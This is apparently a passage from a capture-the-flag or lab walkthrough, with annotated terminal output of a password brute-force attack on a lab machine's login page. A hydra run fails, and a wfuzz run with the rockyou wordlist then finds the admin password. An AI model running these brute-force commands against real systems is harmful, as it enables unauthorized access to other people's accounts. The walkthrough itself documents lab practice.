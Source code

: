 ```html
          <div class="bg-inner"></div>
        </div>
        <div class="text">Log In</div>
      </button>
            <p>Invalid username or password</p> ←
          </form>
  </body>
</html>
* Connection #0 to host 192.168.56.113 left intact
```

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.56.113 http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid username or password" -f -t 4 -w 1 -v`:
```
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-09-17 05:37:13
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking http-post-form://192.168.56.113:80/login.php:username=^USER^&password=^PASS^:F=Invalid username or password ←
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[VERBOSE] Retrying connection for child 3
[VERBOSE] Retrying connection for child 2
[VERBOSE] Retrying connection for child 0
[VERBOSE] Retrying connection for child 1
[VERBOSE] Retrying connection for child 3
[VERBOSE] Retrying connection for child 2
[VERBOSE] Retrying connection for child 0
[VERBOSE] Retrying connection for child 1
[VERBOSE] Disabled child 3 because of too many errors
[VERBOSE] Disabled child 2 because of too many errors
[VERBOSE] Disabled child 1 because of too many errors
[ERROR] all children were disabled due too many connection errors ←
0 of 1 target completed, 0 valid password found
[INFO] Writing restore file because 2 server scans could not be completed
[ERROR] 1 target was disabled because of too many errors
[ERROR] 1 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-09-17 05:37:31
```
❌ Failed Step.

`wfuzz -u 'http://192.168.56.113/login.php' -d 'username=admin&password=FUZZ' -z file,/usr/share/wordlists/rockyou.txt --hc 200 -t 100 -c -v`:
```
********************************************************
* Wfuzz 3.1.0 - The Web Fuzzer                         *
********************************************************

Target: http://192.168.56.113/login.php
Total requests: 14344392

====================================================================================================================================================
ID           C.Time       Response   Lines      Word     Chars       Server                           Redirect                         Payload                                     
====================================================================================================================================================

000346731:   0.003s       302 ←      0 L ←      0 W      0 Ch        Apache/2.4.54 (Debian)           ./logFire ←                      "solitario" ←                               
[...]
```